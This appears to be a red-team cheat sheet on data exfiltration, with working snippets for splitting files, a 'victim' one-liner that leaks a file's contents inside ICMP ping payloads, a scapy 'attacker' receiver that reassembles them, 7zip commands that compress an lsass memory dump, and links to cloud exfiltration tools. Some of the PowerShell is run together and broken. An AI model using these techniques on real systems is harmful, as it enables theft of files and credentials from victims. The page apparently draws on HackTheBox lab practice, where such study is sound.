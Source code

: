 # Exfiltration

*** 

## Data transfer size limit

### Split data in powershell

```powershell
$upperBound= 50MB # calculated by Powershell$ext= "log"$rootName= "log_"$reader= new-objectSystem.IO.StreamReader("C:\Exceptions.log")
$count= 1$fileName= "{0}{1}.{2}"-f ($rootName, $count, $ext)
while(($line= $reader.ReadLine()) -ne $null)
{
    Add-Content -path $fileName-value $lineif((Get-ChildItem -path $fileName).Length -ge $upperBound)
    {
        ++$count$fileName= "{0}{1}.{2}"-f ($rootName, $count, $ext)
    }
}
$reader.Close()
```

### Split command

```bash
split YourLogFile.txt -b 500m
```

### Split data with icmp

#### Victim

```bash
xxd -p -c 4 backup.php | while read line; do ping -c 1 -p $line 127.0.0.1; done
```

#### Ataccker

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```

### Compress data with 7zip

```cmd
c:\programdata\7z.exe a -t7z c:\programdata\lsass.7z c:\programdata\lsass.dmp
c:\programdata\7z.exe e nooranet.zip
```

## Exfiltration over other network medium

* Wifi
* Cellular 
* Bluetooth

## Exfiltration over cloud account

### Google drive

https://github.com/prasmussen/gdrive/releases

### One drive

  https://github.com/lionello/onedrive-cli

### Cloudflare

https://github.com/mantvydasb/Invoke-PowerCloud